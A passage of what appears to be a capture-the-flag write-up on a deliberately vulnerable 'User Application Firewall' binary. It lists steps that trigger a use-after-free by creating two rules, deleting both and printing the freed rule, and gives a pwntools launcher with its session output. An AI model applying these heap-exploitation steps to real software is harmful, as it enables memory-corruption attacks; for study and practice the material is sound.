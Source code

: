 1. create rule `rules[0]`
2. create rule `rules[1]`
3. delete rule 1
4. delete rule 0
5. print rule 0

For debugging purposes, we'd like to run this binary with the provided `libc.so.6` so we will create a simple 'launcher': 

`test.py`
```python
#!/usr/bin/env python3
from pwn import *

r = process(["./ld-2.27.so", "./uaf"], env={"LD_PRELOAD":"./libc.so.6"})
r.interactive()
```

After following the 5 steps we get the following output: 

```
$ ./test.py 
[+] Starting local process './ld-2.27.so': pid 4075
[*] Switching to interactive mode
Welcome to our User Application Firewall (UAF)!
---Choose your option:---
1. Create a firewall rule
2. View a firewall rule
3. Edit a firewall rule
4. Delete a firewall rule
5. Exit
> $ 1
Firewall rule set. Enter your firewall rule here:
$ AAAAAAAA
Your firewall rule ID is: 0
---Choose your option:---
1. Create a firewall rule
2. View a firewall rule
3. Edit a firewall rule
4. Delete a firewall rule
5. Exit
> $ 1
Firewall rule set. Enter your firewall rule here:
$ BBBBBBBB
Your firewall rule ID is: 1
---Choose your option:---
1. Create a firewall rule
2. View a firewall rule
3. Edit a firewall rule
4. Delete a firewall rule
5. Exit
> $ 4
Enter the firewall ID which you want to delete:
$ 1
Rule deleted
---Choose your option:---
1. Create a firewall rule
2. View a firewall rule
3. Edit a firewall rule
4. Delete a firewall rule
5. Exit
> $ 4
Enter the firewall ID which you want to delete:
$ 0
Rule deleted
---Choose your option:---
```